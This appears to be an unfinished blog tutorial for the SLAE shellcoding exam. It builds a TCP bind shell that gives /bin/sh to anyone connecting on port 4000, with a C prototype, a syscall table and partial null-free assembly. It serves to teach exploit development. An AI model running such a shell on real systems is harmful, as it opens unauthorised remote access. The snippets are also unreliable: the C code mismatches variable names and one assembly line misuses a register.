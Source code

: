 ```yaml
---
title: SLAE exam assignment 01
author: Stipe Marinovic
date: 2020-05-17 20:00:00 +0800
categories: [Blogging, Tutorial]
tags: [slae, shellcoding]
toc: true
---
```



... page still under construction ...  

## Assignment 01 ##

* Create a Shell_Bind_TCP shellcode
  - Binds to a port
  - Execs Shell on incoming connection
* Port number should be easily configurable

## Prototype ##

To get idea how bind shell works and which syscalls are used/needed, we can create prototye of bind shell code in C.  

```
#define _GNU_SOURCE # added to avoid gcc's implicit declaration of function warning
#include <unistd.h> 
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int main() { 

  // Define struct containing bind() arguments
  struct sockaddr_in server; 

  // Define socket file descriptor
  int socketfd; 
  int socketid; 
   
  // Create socket 
  socketd = socket(AF_INET, SOCK_STREAM, 6); 

  // Setup struct "server" containing following information: address, port and address family
  server.sin_addr.s_addr = htonl(INADDR_ANY); // any address (0.0.0.0)
  server.sin_port = htons(4000);              // port 4000
  server.sin_family = AF_INET;                // address family (ip v4)

  // Bind socket to ip 0.0.0.0, port 4000 
  bind(socketd, (struct sockaddr*) &server, sizeof(server)); 

  // Listen for incoming connections 
  listen(socketd, 2); 

  // Accept incoming connection 
  socketid = accept(socketd, NULL, NULL); 

  // Bind STDIN (0), STDOUT (1), STDERR (2) to incoming connection 
  dup2(socketid, 0); 
  dup2(socketid, 1); 
  dup2(socketid, 2); 

  // Run /bin/sh shell 
  execve("/bin/sh", NULL, NULL); 
} 
```

When application is compiled and run, we can confirm with netstat and netcat that application is indeed listening at port 4000 and provides shell to who ever connects to listening port.
![bind shell](https://smarinovic.github.io/assets/img/slae_00001.png)


## Syscalls ##

Based on prototype code above, we can conclude that following syscalls needs to be called in order to create bind shell:

* socket
* bind
* listen
* accept
* dup2
* execve

List of all syscalls and descriptions can be found in: unistd_32.h on following location: ```/usr/include/x86_64-linux-gnu/asm/unistd_32.h```

```
Syscall                Dec   Hex
----------------------------------
#define __NR_socket    359   0x167
#define __NR_bind      361   0x169
#define __NR_listen    363   0x16B
#define __NR_accept4   364   0x16C
#define __NR_dup2      63    0x3F
#define __NR_execve    11    0xB
```

First we need to figure out which arguments are needed for each syscall.  
Let's start with socket call. Based on man 2 pages (```man 2 socket```) we can see the descripton of function and arguments it takes.

```
int socket(int domain, int type, int protocol);
// socket()  creates an endpoint for communication and returns a file descriptor that refers to that endpoint.  
// The file descriptor returned by a successful call will be the lowest-numbered file descriptor not currently open for the process.
```

Arguments are passed via EAX, EBX, ECX, EDX, ESI, EDI registers.  
To have a clean start, registers need to be zero-out. Easiest way to do it (and avoid having null bytes in code) is by XOR register with itself.

```
xor eax, eax    ; Clear EAX 
xor ebx, ebx    ; Clear EBX
xor ecx, ecx    ; Clear ECX
xor edx, edx    ; Clear EDX
```

After that we need to pass syscall (hex 0x167) for socket in EAX register.  
Bind shell will most commonly be used in exploit which is usually delivered as payload to some network application.  
For that reason, we need to avoid null bytes, as null bytes terminates string and breaks exploit.

By using nasm_shell we can see that ```mov eax, 0x167``` generates null bytes: B86701 _ 0000 _ so we cannot simply use ```mov eax, 0x167```, instead we can use ```mov ax, 0x167```:
```
/usr/bin/msf-nasm_shell
nasm > mov eax, 0x167
00000000  B867010000        mov eax, 0x167
nasm > mov ax, 0x167
00000000  66B86701          mov ax, 0x167
nasm > 
```


```mov ah, 0x167 ; 359 (0x167) is the syscall for socket ```

Next, we need to pass arguments to ```socket(AF_INET, SOCK_STREAM, 6);``` function by placing arguments in registers:

```
mov bl, 2  ; domain = 2 (AF_INET/IPv4)
mov cl, 1  ; type = 1 (SOCK_STREAM/TCP)
mov dl, 6  ; protocol = 6 (IPPROTO_TCP)
int 0x80   ; syscall
```

.... to be continued ...


```
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
// When a socket is created with socket(2), it exists in a name space (address family) but has no address assigned to it.
// bind() assigns the address specified by addr to the socket referred to by the file descriptor sockfd.  
// addrlen specifies the size, in bytes, of the address structure pointed to by addr.
```

```
int listen(int sockfd, int backlog);
// listen() marks the socket referred to by sockfd as a passive socket, that is, as a socket that will be used to accept incoming connection requests using accept(2).
// The sockfd argument is a file descriptor that refers to a socket of type SOCK_STREAM or SOCK_SEQPACKET.
//  The backlog argument defines the maximum length to which the queue of pending connections for sockfd may grow.  
```

```
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
// The accept() system call is used with connection-based socket types (SOCK_STREAM, SOCK_SEQPACKET). 
// It extracts the first connection request on the queue of pending connections for the listening socket, sockfd, creates a new connected socket, and returns a new file descriptor referring to that socket.  
// The newly created socket is not in the listening state.  
```

```
int dup2(int oldfd, int newfd);
// The dup2() system call performs the same task as dup(), but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in newfd.  If the file descriptor newfd was previously open, it is silently closed before being reused.
```

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
// execve()  executes the program referred to by pathname.  
// This causes the program that is currently being run by the calling process to be replaced with a new program, with newly initialized stack, heap, and (initialized and uninitialized) data segments.
// pathname must be either a binary executable, or a script starting with a line of the form:
// #!interpreter [optional-arg]
```

